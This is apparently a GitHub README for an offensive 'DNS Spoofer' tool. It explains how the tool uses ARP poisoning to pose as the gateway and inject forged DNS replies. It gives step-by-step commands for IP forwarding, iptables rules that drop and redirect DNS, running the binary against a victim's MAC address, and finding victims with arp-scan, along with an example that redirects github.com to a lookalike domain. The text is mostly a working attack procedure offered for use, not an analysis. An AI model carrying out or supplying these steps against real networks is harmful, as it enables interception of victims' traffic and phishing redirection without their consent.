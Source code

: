 # DNS Spoofer

DNS Spoofer is a tool which exploits how ARP protocol works by pretending to be the gateway. Then when victim saves attacker's MAC as gateway
all packets will be tunneled through attacker's computer. This allows attacker to pick DNS packets, drop them and inject fake DNS responses.

## How to run

### 1. Enable ip forwarding

```sh
echo "1" | sudo tee /proc/sys/net/ipv4/ip_forward
```

### 2. Add routing via iptables

These commands will make that all packets are passed to the router except for DNS requests.
Second command is needed because without it DNS responses would be masqueraded too and victim would not
accept them.

```sh
sudo iptables -t filter -A FORWARD -p udp --dport 53 -j DROP
sudo iptables -t nat -A POSTROUTING -o wlo1 -p udp --sport 53 -j ACCEPT
sudo iptables -t nat -A POSTROUTING -o wlo1 -j MASQUERADE
```

### 3. Compile

```sh
make
```

### 4. Run

```sh
sudo ./dns_spoofer INTERFACE_NAME GATEWAY_IP_ADDR WEBSITE_ADDR REDIRECT_IP_ADDR VICTIMS_MAC
```

If you are not sure which interface to use, run "ip a" and look for the one that has "state UP".

To get victim's mac address, run "arp-scan --localnet".

#### Example:

If your interface is wlo1, gateway is 192.168.0.1 and victim's MAC is a8:44:12:13:g2:1b then you can run the following command:

```sh
sudo ./dns_spoofer wlo1 192.168.0.1 github.com guthib.com a8:44:12:13:g2:1b
```

This will make it so that when victim asks for ip address of github.com instead they will get ip address of guthib.com.
